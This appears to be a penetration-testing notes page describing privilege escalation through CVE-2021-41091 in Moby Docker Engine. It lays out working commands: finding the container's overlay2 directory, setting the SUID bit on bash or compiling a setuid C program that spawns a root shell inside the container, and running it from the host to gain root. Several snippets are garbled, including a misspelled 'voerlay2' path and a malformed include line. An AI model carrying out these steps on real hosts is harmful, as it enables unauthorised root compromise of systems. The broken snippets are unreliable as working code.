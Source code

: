 ```yaml
---
description: Directory Traversal & Arbitrary Command Execution (CVE-2021-41091 )
---
```


# Moby Docker Engine PrivEsc

### Refernces:

[oss-sec: Re: CVE-2021-3847: OverlayFS - Potential Privilege Escalation using overlays copy\_up (seclists.org)](https://seclists.org/oss-sec/2021/q4/41)

[How Docker Made Me More Capable and the Host Less Secure (cyberark.com)](https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure)

### Escalation Steps

### Find the directory for docker

{% code overflow="wrap" %}
```bash
# Find the directory where the docker is mounted
findmnt
.\linpeas.sh 


# Results e.g.
/var/lib/docker/overlay2/abcdef...xyz/merged
# or 
overlay on / type overlay (rw,relatime,
/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:
/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNURRN2X4JEH:
/var/lib/docker/overlay2/l/YWNFANZGTHCUIML4WUIJ5XNBLJ:
/var/lib/docker/overlay2/l/JWCZSRNDZSQFHPN75LVFZ7HI2O:
/var/lib/docker/overlay2/l/DGNCSOTM6KEIXH4KZVTVQU2KC3:
/var/lib/docker/overlay2/l/QHFZCDCLZ4G4OM2FLV6Y2O6WC6:
/var/lib/docker/overlay2/l/K5DOR3JDWEJL62G4CATP62ONTO:
/var/lib/docker/overlay2/l/FGHBJKAFBSAPJNSTCR6PFSQ7ER:
/var/lib/docker/overlay2/l/PDO4KALS2ULFY6MGW73U6QRWSS:
/var/lib/docker/overlay2/l/MGUNUZVTUDFYIRPLY5MR7KQ233:
/var/lib/docker/overlay2/l/VNOOF2V3SPZEXZHUKR62IQBVM5:
/var/lib/docker/overlay2/l/CDCPIX5CJTQCR4VYUUTK22RT7W:
/var/lib/docker/overlay2/l/G4B75MXO7LXFSK4GCWDNLV6SAQ:
/var/lib/docker/overlay2/l/FRHKWDF3YAXQ3LBLHIQGVNHGLF:
/var/lib/docker/overlay2/l/ZDJ6SWVJF6EMHTTO3AHC3FH3LD:
/var/lib/docker/overlay2/l/W2EMLMTMXN7ODPSLB2FTQFLWA3:
/var/lib/docker/overlay2/l/QRABR2TMBNL577HC7DO7H2JRN2:
/var/lib/docker/overlay2/l/7IGVGYP6R7SE3WFLYC3LOBPO4Z:
/var/lib/docker/overlay2/l/67QPWIAFA4NXFNM6RN43EHUJ6Q,


upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,


workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)
```
{% endcode %}

### Prepare the SUID binary in the container <a href="#id-2.-prepare-suid-binary-in-container" id="id-2.-prepare-suid-binary-in-container"></a>

```bash
# Login to the docker as a root
chmod u+s /bin/bash

# or create a code like, compile it. 

# include <unistd.h>
# include (stdlib.h>
void main()
{
    setuid(0);
    setgid(0);
    system("bin/bash -p");
}
# gcc -m64 -o suid64 suid.c 
# chmod u+s ./suid64
```

### Execute in the host&#x20;

Back to the host machine, and execute the SUID binary

{% code overflow="wrap" %}
```bash
/var/lib/docker/voerlay2/abdef...xyz/merged/bin/bash -p
# or
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/suid64
```
{% endcode %}
